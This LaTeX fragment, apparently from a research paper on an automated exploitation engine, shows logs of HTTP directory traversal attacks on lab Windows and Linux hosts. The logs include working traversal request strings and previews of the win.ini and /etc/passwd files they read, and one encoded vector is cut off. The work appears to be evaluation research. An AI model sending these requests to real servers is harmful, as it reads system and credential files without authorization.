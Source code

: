 \FloatBarrier
\paragraph{Empirical Evidence: HTTP Directory Traversal Execution Records.}
The path traversal engine was evaluated against both Windows and Linux hosts, automatically adapting
the path separators and system targets:

\begin{logbox}
=================================================================
  [EXPLOIT 4a] HTTP Directory Traversal on Windows Host (192.168.0.116)
=================================================================
  Target Host : 192.168.0.116:80 (VulnHTTP/1.0 Server)
  Target File : windows\win.ini
  Status      : SUCCESS [OK] (All 3 Encodings Confirmed Vulnerable)
-----------------------------------------------------------------
  Vector 1 (Standard Backslash):
    GET /..\..\..\..\..\windows\win.ini HTTP/1.0 -> 200 OK
  Vector 2 (POSIX Separator):
    GET /../../../../../../../windows/win.ini HTTP/1.0 -> 200 OK
  Vector 3 (URL Hex-Encoded):
    GET /..%
-----------------------------------------------------------------
  Exfiltrated File Content (Preview):
    [fonts]
    Arial=arial.ttf
    Courier New=cour.ttf
    [extensions]
=================================================================

=================================================================
  [EXPLOIT 4b] Dynamic POSIX HTTP Path Traversal on Linux (192.168.56.101)
=================================================================
  Target Host : 192.168.56.101:80 (Apache/2.4.68 Debian)
  Target File : /etc/passwd (Dynamically Swapped via Phase 3 Attribution)
  Status      : SUCCESS [OK]
-----------------------------------------------------------------
  Vector Executed:
    GET /../../../../../../../etc/passwd HTTP/1.0 -> 200 OK
-----------------------------------------------------------------
  Exfiltrated File Content (Preview):
    root:x:0:0:root:/root:/usr/bin/zsh
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    kali:x:1000:1000:Kali Linux User,,,:/home/kali:/usr/bin/zsh
=================================================================
\end{logbox}

